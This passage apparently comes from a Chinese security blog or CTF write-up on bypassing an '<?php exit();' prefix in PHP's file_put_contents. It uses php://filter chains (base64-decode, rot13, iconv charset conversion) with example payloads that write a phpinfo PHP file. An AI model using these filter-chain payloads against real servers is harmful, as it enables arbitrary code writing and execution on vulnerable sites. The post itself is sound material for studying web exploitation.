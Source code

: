 ## 0x03 file_put_contents(\$a,”<?php exit();”.$a);

```php
file_put_contents($a,"<?php exit();".$a);
```



### 1. base64

`$a = php://filter/write=convert.base64-decode|PD9waHAgcGhwaW5mbygpOz8+|/resource=Cyc1e.php`



**php://filter面对不可用的规则是报个Warning，然后跳过继续执行的（不会退出）**，所以按理说这样构造是**“很完美”**的，我们看下base-decode哪些字符👇

```
php//filter/write=convertbase64decodePD9waHAgcGhwaW5mbygpOz8+/resource=Cyc1e.php
```

而默认情况下base64编码是以 `=` 作为结尾的，所以**正常解码的时候到了 `=` 就解码结束了**，即使我们构造payload的时候不用`write=`，但是在最后获取文件名的时候`resource=`中的 `=` 过不掉，所以导致过滤器解码失败，**从而报错（不过还是会创建文件的，内容由于解码过程出错了，就都丢弃了）**



### 2. rot13



rot13编码就不存在base64的问题，所以和前面base64构造的思路一样👇

```
$a = php://filter/write=string.rot13|<?cuc cucvasb();?>|/resource=Cyc1e.php
```

![img](https://cyc1e183.github.io/2020/04/03/%E5%85%B3%E4%BA%8Efile_put_contents%E7%9A%84%E4%B8%80%E4%BA%9B%E5%B0%8F%E6%B5%8B%E8%AF%95/image-20200403160545137.png)



和前面提到的一样，这种方法是需要服务器**没有开启短标签**的时候才可以使用（默认情况是没开启的：php.ini中的short_open_tag（再补充一下，linux下默认是没有开启的））



### 3. iconv字符编码转换

这种方法由于之前没有见过，所以感觉这波操作比我的亚索还要秀~，想法是一样的，**通过字符转换把`<?php exit();`转成不能解析的，这里采用的是UCS-2或者UCS-4编码方式（当然还有很多，比如utf-8和utf-7），而我们构造的转成可正常解析的**



官方文档中支持的

```
UCS-4
UCS-4BE
UCS-4LE
UCS-2
UCS-2BE
UCS-2LE
UTF-32
UTF-32BE
UTF-32LE
UTF-16
UTF-16BE
UTF-16LE
UTF-7
UTF7-IMAP
UTF-8
ASCII
EUC-JP
SJIS
eucJP-win
SJIS-win
ISO-2022-JP
```
